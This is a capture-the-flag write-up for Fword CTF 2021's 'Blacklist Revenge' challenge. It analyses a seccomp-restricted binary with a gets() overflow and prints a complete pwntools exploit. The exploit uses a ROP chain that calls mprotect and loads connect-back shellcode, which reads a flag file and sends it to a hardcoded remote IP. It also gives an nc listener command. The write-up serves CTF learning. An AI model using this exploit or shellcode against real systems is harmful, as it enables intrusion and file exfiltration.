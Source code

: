 ​**Blacklist Revenge**

was a pwn challenge from Fword CTF 2021.

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/title.png)

frightning isn't it ? probably the revenge of a bad coder...

so let's have a look to the binary with checksec first.

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/checksec.png)

ok not much protections..

let's reverse it so. The binary is basically three functions, main, init, and vuln

**the main function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_main.png)

not much inside, it calls init() then vuln()

**the init function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_init.png)

well basically it puts in place a seccomp filter.. let's dump the rules in place

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/seccomp.png)

well execve, execveat, fork, open are forbidden, so no shell execution.

so we will go for a connect back shellcode that send us back the flag

(open can be replaced by the openat syscall which do the same (more or less))

let's have a look to the vuln function.

**the vuln function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_vuln.png)

ok well gets()..

gets read input as long as it does not receive a carriage return , and is a vulnerability by itself (I don't know how it's still in C library in 2021)

so we can overflow the stack, write a ROP, and do a reverse shell to ourself...

here is the python code that does that...

first set up a listener in another shell window:   nc -v -l -p PORT

then launch the python exploit, and wait for the shellcode to connect back to you, and send you back the flag

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/flag.gif)


```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")

exe = context.binary = ELF('./blacklist')
rop = ROP(exe)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
add_rax = 0x000000000047fb30  # add rax, 1 ; ret
syscall = rop.find_gadget(['syscall', 'ret'])[0]

# set up here the IP and PORT of yout listener waiting for the connection back from the shellcode
if args.LOCAL:
  IP, PORT = ('127.0.0.1', 12490)
else:
  IP, PORT = ('156.146.63.18', 43957)

# convertion of IP & PORT for the shellcode
def sockaddr():
    family = struct.pack('H', socket.AF_INET)
    portbytes = struct.pack('H', socket.htons(PORT))
    ipbytes = socket.inet_aton(IP)
    number = struct.unpack('Q', family + portbytes + ipbytes)
    number = -number[0]        #negate
    return hex((number + (1 << 64)) % (1 << 64))

# connect back shellcode , then openat(flag) and sendfile to socket 
shellc = asm ('''
socket:
        push 41
        pop rax
        cdq
        push 2
        pop rdi
        push 1
        pop rsi
	syscall
	mov rbp,rax
connect:
	xchg eax,edi
	mov al,42
        mov rcx,%s
        neg rcx
        push rcx
	mov rsi,rsp
        mov dl,16
        syscall

	xor rdi,rdi
	lea rsi,fname[rip]
	xor rdx,rdx
	xor r10,r10
	xor rax,rax
        mov ax,257
        syscall

	mov rdi,rbp
	mov rsi,rax
	mov rdx,0
	mov r10,100
        xor rax,rax
	mov al,40
	syscall
	push 60
	pop rax
	syscall
fname:
	.ascii "/home/fbi/flag.txt"

''' % (sockaddr()))


buff = 0x4e0c00

p = remote('40.71.72.198', 1236)

# ROP that does a mprotect on .bss to make it RWX, then read the shellcode in this buffer and execute it
payload = 'A'*0x48
payload += p64(pop_rdi) + p64(0x4e0000) + p64(pop_rsi) + p64(0x1000) + p64(pop_rdx) + p64(7) + p64(pop_rax) + p64(9) + p64(add_rax) + p64(syscall)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buff) + p64(pop_rdx) + p64(len(shellc)) + p64(pop_rax) + p64(0) + p64(syscall)
payload += p64(0x4e0c00)

p.sendline(payload)

# now we send our shellcode
p.sendline(shellc)
```

*nobodyisnobody still pwning things..*

